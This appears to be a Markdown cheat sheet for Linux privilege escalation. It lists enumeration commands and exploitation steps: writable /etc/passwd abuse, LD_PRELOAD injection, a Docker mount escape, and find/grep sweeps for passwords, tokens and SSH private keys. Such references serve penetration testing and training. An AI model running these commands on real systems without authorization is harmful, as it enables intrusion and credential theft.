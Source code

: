 ## Linux Priviledge Escalation
- OS Version

- Kernel Exploits
   - **Check Kernel**: `uname -r`
   - **Exploit**: Search for exploits by kernel version on Exploit-DB.
     
- Running Services
  - `ps -eo user,pid,comm | grep '^root'`

- SUID Binaries
   - **Find SUID Files**: `find / -perm -4000 2>/dev/null`
   - **Exploits**: Use GTFOBins for known SUID binary exploits.

- sudo -l (Check Sudo Privileges)
   - **List Privileges**: `sudo -l`
   - Running a vuln executable as particular user, `sudo -u targetuser /bin/vulnfile`
   - **Exploits**: Look for `NOPASSWD` or exploitable commands (e.g., `vim`, `find`).

- Cron Jobs
   - **View Cron Jobs**: `cat /etc/crontab`, `ls -la /etc/cron.d/`
   - **Exploits**: Writable cron scripts or wildcard abuse.

- Writable /etc/passwd
   - **Exploit**: Add new root user using password hash from `openssl passwd -1`.

- SSH Keys
   - **Find Keys**: `find / -name "*.pem" 2>/dev/null`
   - **Exploit**: Use private key for SSH if no passphrase.

- PATH Variable Manipulation
   - **Exploit**: Modify `PATH` and place malicious script in writable directory.

- NFS Root Squashing
   - **Check**: Look for `no_root_squash` in `/etc/exports`
   - **Exploit**: Mount and access with root on NFS share.

- World-Writable Files
   - **Find**: `find / -writable -type d 2>/dev/null`
   - **Exploit**: Overwrite world-writable scripts or binaries.

- LD_PRELOAD and LD_LIBRARY_PATH
   - **Exploit**: Inject code with custom library.
     ```bash
     gcc -fPIC -shared -o shell.so shell.c -nostartfiles
     LD_PRELOAD=./shell.so <vulnerable_program>
     ```
- Docker Privilege Escalation
   - **Exploit**: Mount root filesystem and escape container:
     ```bash
     docker run -v /:/mnt --rm -it alpine chroot /mnt sh
     ```
- Password and Credential Files
   - **Find Sensitive Files**:
     ```bash
     find / -type f -exec grep -iH 'password' {} \; 2>/dev/null
     find / -type f -exec grep -Ei 'password|passwd|pwd|secret|token|key' {} \; 2>/dev/null
     find / -type f -exec grep -iE 'pass(word)?\s*=\s*["'\'']?.+["'\'']?' {} \; 2>/dev/null
     find / -name "*.bak" 2>/dev/null
     find / -name "*.old" 2>/dev/null
     ```
- Check Hidden Files
- Check Hidden Direstories
  - **ssh files**
    ```bash
    find / -name "id_rsa" -o -name "id_dsa" -o -name "authorized_keys" -o -name "known_hosts" 2>/dev/null
    find / -name "*.pem" -o -name "*.key" 2>/dev/null
    ```

     
## Common Checks
```bash
whoami #username
hostname #hostname
cat /etc/os-release #os details
uname -a #kernel details
lscpu #cpu details
route #ip and interface details
cat /etc/passwd | cut -f1 -d: # users details

```
